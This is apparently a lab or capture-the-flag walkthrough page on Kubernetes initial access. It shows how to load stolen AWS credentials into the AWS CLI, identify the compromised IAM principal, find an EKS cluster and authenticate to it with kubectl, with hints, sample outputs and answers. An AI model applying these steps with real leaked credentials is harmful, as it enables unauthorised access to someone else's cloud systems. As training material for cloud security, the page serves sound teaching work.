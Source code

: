 # Kubernetes Initial Access

Microsoft's Threat Matrix for Kubernetes highlights a number of [Initial Access](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/tactics/InitialAccess/){: target="_blank" rel="noopener"} techniques used by attackers to compromise a cluster. One of the techniques, documented as [Using cloud credentials](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Using%20Cloud%20Credentials/){: target="_blank" rel="noopener"}, occurs when cloud credentials are stolen or unintentionally leaked.

## AWS CLI Configuration

The AWS Command Line Interface (CLI) provides programmatic access to the AWS service APIs. To gain access to the AWS Elastic Kubernetes Cluster (EKS), you need to configure the AWS CLI to use the stolen credentials that you received from the village hosts. Set the required [AWS CLI environment variables](https://docs.aws.amazon.com/cli/v1/userguide/cli-configure-envvars.html){: target="_blank" rel="noopener"} to use the stolen credentials. What is the name of the compromised AWS principal?

??? tip "Hint"

    - The AWS CLI checks several locations for credentials when authenticating to the AWS APIs. This includes a local configuration file (~/.aws/credentials), environment variables, and the instance metadata service when running inside an AWS process (EC2, Lambda, etc.). Set the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, and `AWS_DEFAULT_REGION` environment variables to the stolen credentials.

        ```bash
        export AWS_ACCESS_KEY_ID=STOLEN_ACCESS_KEY
        export AWS_SECRET_ACCESS_KEY=STOLEN_SECRET_KEY
        export AWS_DEFAULT_REGION=STOLEN_REGION
        ```

    - The AWS Security Token Service (STS) has a [GetCallerIdentity](https://docs.aws.amazon.com/STS/latest/APIReference/API_GetCallerIdentity.html){: target="_blank" rel="noopener"} that returns details about the IAM user or role calling the API. Use the `aws sts get-caller-identity` command to retrieve the compromised principal's name and AWS account id.

        ```bash
        aws sts get-caller-identity
        ```

        !!! abstract "Expected Output"
            ```json hl_lines="4"
            {
              "UserId": "AIDA2ZCFBDI7W52ZHQYQ7",
              "Account": "123456789012",
              "Arn": "arn:aws:iam::123456789012:user/?????"
            }
            ```

??? success "Answer"

    - The compromised principal's name is in the **Arn** field in the output, which identifies an IAM user named **kubeace-maverick** followed by a random identifier.

        ```
        kubeace-maverick-randomid
        ```

## AWS EKS Initial Access

Amazon's Elastic Kubernetes Service (EKS) is a managed Kubernetes service that makes it simple to run Kubernetes on AWS without needing to install, configure, and maintain your own Kubernetes control plane. EKS is integrated with many AWS services, including the [Identity and Access Management (IAM)](https://docs.aws.amazon.com/eks/latest/userguide/cluster-auth.html){: target="_blank" rel="noopener"} service.

With the appropriate [EKS access entry](https://docs.aws.amazon.com/eks/latest/userguide/access-entries.html){: target="_blank" rel="noopener"} and permissions, AWS principals can configure `kubectl` to authenticate directly to the EKS cluster.

1. Use the AWS CLI to search the AWS account for EKS clusters. What is the name of the EKS cluster that you need to access?

    ??? tip "Hint"

        - The `aws eks list-clusters` command lists the EKS clusters in the specified AWS account.

            ```bash
            aws eks list-clusters
            ```

            !!! abstract "Expected Output"
                ```json hl_lines="3"
                {
                  "clusters": [
                    "?????"
                  ]
                }
                ```

    ??? success "Answer"

        - The EKS cluster you need to access is named **hth-eks-cluster**.

            ```
            hth-eks-cluster
            ```

1. Use AWS CLI to update your machine's [kubeconfig file](https://docs.aws.amazon.com/eks/latest/userguide/create-kubeconfig.html){: target="_blank" rel="noopener"} and access the EKS cluster. What Kubernetes group(s) is the compromised AWS principal a member of?

    ??? tip "Hint"

        - The `aws eks update-kubeconfig` command updates the `~/.kube/config` file with details `kubectl` needs to authenticate to the `hth-eks-cluster` cluster.

            ```bash
            aws eks update-kubeconfig --name hth-eks-cluster
            ```

            !!! abstract "Expected Output"
                ```json hl_lines="4"
                Updated context arn:aws:eks:us-west-2:123456789012:cluster/hth-eks-cluster in /Users/user/.kube/config
                ```

        - Similar to the `aws sts get-caller-identity` command, `kubectl` has its own command that returns details about the authenticated user. Use the `kubectl auth whoami` command to view the compromised principal's group memberships.

            ```bash
            kubectl auth whoami
            ```

            !!! abstract "Expected Output"
                ```
                ATTRIBUTE                                              VALUE
                Username                                               kubeace-maverick-randomid
                UID                                                    aws-iam-authenticator:123456789012:AIDA2ZCFBDI7W52ZHQYQ7
                Groups                                                 [?????]
                Extra: accessKeyId                                     [AKIA2ZCFBDI74CS5EG5L]
                Extra: arn                                             [arn:aws:iam::123456789012:user/kubeace-maverick-randomid]
                Extra: canonicalArn                                    [arn:aws:iam::123456789012:user/kubeace-maverick-randomid]
                Extra: principalId                                     [AIDA2ZCFBDI7W52ZHQYQ7]
                Extra: sessionName                                     []
                Extra: sigs.k8s.io/aws-iam-authenticator/principalId   [AIDA2ZCFBDI7W52ZHQYQ7]
                ```

    ??? success "Answer"

        - The compromised principal is a member of the **hth-data-viewers** and **system:authenticated** groups. Based on the name of the first group (`hth-data-viewers`), it is likely that the principal has read-only access to resources in the cluster that live in the `hth` namespace.

            ```
            Groups [hth-data-viewers system:authenticated]
            ```

## Village Challenges

Now that you have successfully gained access to the EKS cluster using the compromised AWS credentials, it is time to start elevating privileges inside the cluster and exfiltrating HTH data. Navigate to the [Airborneio-24 Challenge](./airborneio-24.md) to find the first flag.
